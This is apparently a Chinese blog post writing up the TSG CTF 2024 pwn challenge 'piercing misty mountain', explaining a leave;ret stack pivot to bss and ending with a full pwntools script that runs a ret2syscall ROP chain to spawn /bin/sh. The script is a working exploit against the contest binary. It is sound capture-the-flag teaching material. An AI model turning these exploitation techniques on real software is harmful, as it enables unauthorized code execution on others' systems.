 ```yaml
---
date: 2024-12-17 10:29:05
layout: post
title: TSG CTF 2024 pwn 方向 writeup 合集
subtitle: 
description: >-
    复现一波吧
image: >-
  /assets/img/uploads/autumn_cat.jpg
optimized_image: >-
  /assets/img/uploads/autumn_cat.jpg
category: ctf
tags:
  - SECCON
  - TSG CTF
  - pwn
  - heap exploitation
author: rosayxy
paginate: true
---
```

发现自己在一些思路或者是 trick 上还是不够熟练啊，于是进行一点题的做      
因为同步在做其他题所以可能慢慢更新...     
## piercing misty mountain
静态链接的程序，给了一次16字节的溢出，无 canary   
首先就是想到栈迁移，但是在该次溢出前，没有往 bss 段进行写的机会，只可以写栈更高的位置，所以一开始的想法是找一个升栈的 gadget，把栈升到一开始有输入的地方，但是在第一次输入和溢出之间，有一次 0x4000 的降栈     
所有升栈的 gadget 都不能升那么大，于是无法战胜，最终由队友 k4ra5u 在比赛时解出（khls tql!）    

### 思路
它含有溢出的函数返回用的是 `leave;ret`，而 `leave` 相当于下面这两条指令
```
mov esp, ebp
pop ebp
```
因为我们可以赋值到 old_rbp 于是在栈溢出时，可以控制到 rbp    
然后看到第一次读入的时候，是**相对于 rbp 寻址** 如下：    
![alt_text](/assets/img/uploads/rbp.png)

如果我们把old_rbp 改到 bss 段，把返回地址改到这里的话，就可以正常读入了！由于是静态链接，我们可以直接把 ret2syscall ropchain 写到 bss 段     
紧接着，我们再次到了那个溢出的函数，我们把 old_rbp 改为该 ropchain 地址 -8 然后覆盖返回地址为 `leave;ret` gadget 地址，从而栈迁移执行 ROPchain    
感觉这个找 gadget 的思路有点像去年 seccon-quals 的简单题 ROP-2.35    

### exp
```py
from pwn import*
context(log_level="debug", arch="amd64", os="linux")
p=process("./piercing_misty_mountain")

p.recvuntil("Name > ")
p.sendline("A"*0x20)
p.recvuntil("Job\n")
p.sendline("3")
fake_rbp = 0x4c73c0 + 0x1000
payload = b"a"*4 + p64(fake_rbp) + p64(0x401AAB)
p.recvuntil("Job > ")
p.send(payload)
# gdb.attach(p)
# pause()
p.recvuntil("Age > ")
p.sendline("13")
sleep(0.1)
pop_rdi = 0x40217f
pop_rsi = 0x40a1ee
pop_rax = 0x450847
pop_rdx = 0x44afa2
syscall = 0x044FDF0
binshell = 0x4c73c0 + 0x100
payload = p64(pop_rdi) + p64(binshell) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(59) + p64(syscall)
payload = payload.ljust(0x100, b"\x00") + b"/bin/sh\x00"
p.sendline(payload)
p.recvuntil("Job\n")
p.sendline("3")
payload = b"a"*4 + p64(0x4c73b8) + p64(0x401A63)
p.recvuntil("Job > ")
p.send(payload)
p.recvuntil("Age > ")
p.sendline("13")

p.interactive()

```
